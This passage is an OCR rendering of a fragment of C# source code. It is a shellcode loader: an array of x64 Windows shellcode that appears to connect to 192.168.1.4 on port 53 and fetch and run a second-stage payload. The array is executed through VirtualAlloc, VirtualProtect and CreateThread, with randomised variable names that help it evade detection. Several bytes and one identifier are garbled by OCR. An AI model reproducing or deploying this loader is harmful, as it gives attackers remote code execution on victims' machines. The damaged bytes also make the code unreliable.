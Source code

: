     0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,xe9,
    
    0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,x00,
    
    0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,xe5,
    
    0x49,0xbc,0x02,0x00,0x00,0x35,0xc0,0xa8,0x01,0x04,0x41,0x54,0x49,0x89,xe4,
    
    0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,x68,
    
    0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,x0a,
    
    0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,x89,
    
    0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,xd5,
    
    0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,xba,
    
    0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,xe5,
    
    0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,xc9,
    
    0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,xd5,
    
    0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,x41,
    
    0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,x41,
    
    0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,x31,
    
    0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,xc8,
    
    0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,x40,
    
    0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,xd5,
    
    0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,x3c,
    
    0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,x41,
    
    0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,xd5};
    
    IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);
    
    Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);
    
    IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTf wBS = IntPtr.Zero;
    
    uint BnhanUiUJaetgy;
    
    bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);
    
    oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);
    
    WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}
    
    }
    
        

* * *